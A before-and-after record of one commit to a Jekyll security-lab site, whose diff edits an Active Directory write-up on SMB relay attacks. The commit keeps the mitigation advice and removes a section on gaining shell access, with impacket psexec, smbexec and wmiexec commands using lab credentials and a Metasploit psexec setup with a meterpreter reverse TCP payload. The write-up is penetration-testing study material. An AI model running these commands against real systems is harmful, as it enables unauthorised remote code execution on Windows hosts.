

Before and after one commit to SecZone1/seczone1.github.io, a Jekyll site: the page built from _Active_Directory/2022-07-14-SMB-Relay-Attack.md, in a window 1280 px wide and 1400 px high, scrolled down 6039 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 6137 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2022-07-14-SMB-Relay-Attack.md

````diff
--- a/_Active_Directory/2022-07-14-SMB-Relay-Attack.md
+++ b/_Active_Directory/2022-07-14-SMB-Relay-Attack.md
@@ -100,55 +100,8 @@ ls # list all file
 
 ![Desktop View](/assets/img/AD_Lab/1 (74).png){: }
 
+
 # SMB Relay Attack Mitigation
 -  Enable SMB Signing on all devices. This can be done via Group Policy
 -  Disable NTLM authentication on the network. Use Kerberos instead.
 -  Limit Domain Admins to specific task
-
-
-
-# Gaining Shell Access
-** this done when you get credential (user and pass)**
-
-## Using [impacket](https://github.com/SecureAuthCorp/impacket)
-```bash
-# psexec.py DC/Username:Password@DC-IP
-
-psexec.py Homelab.local/superman:'Password123!'@192.168.1.2
-
-```
-![Desktop View](/assets/img/AD_Lab/1 (75).png){: }
-
-```bash
-# smbexec.py DC/Username:Password@DC-IP
-
-smbexec.py Homelab.local/superman:'Password123!'@192.168.1.2
-
-```
-![Desktop View](/assets/img/AD_Lab/1 (76).png){: }
-
-```bash
-# wmiexec.py DC/Username:Password@DC-IP
-wmiexec.py Homelab.local/superman:'Password123!'@192.168.1.2
-
-```
-![Desktop View](/assets/img/AD_Lab/1 (77).png){: }
-
-## using Metasploit
-
-```bash
-use exploit/windows/smb/psexec
-set rhost #dc-ip
-set smbdomain #dc-name
-set smbpass  # Userpass
-set smbuser  # Usarname
-set Lhost  # local-ip
-set payload /windows/x64/meterpreter/reverse_tcp   # payload
-run # run exploit
-```
-![Desktop View](/assets/img/AD_Lab/1 (78).png){: }
-
-![Desktop View](/assets/img/AD_Lab/1 (79).png){: }
-
-- now we get shell access
-![Desktop View](/assets/img/AD_Lab/1 (80).png){: }
````
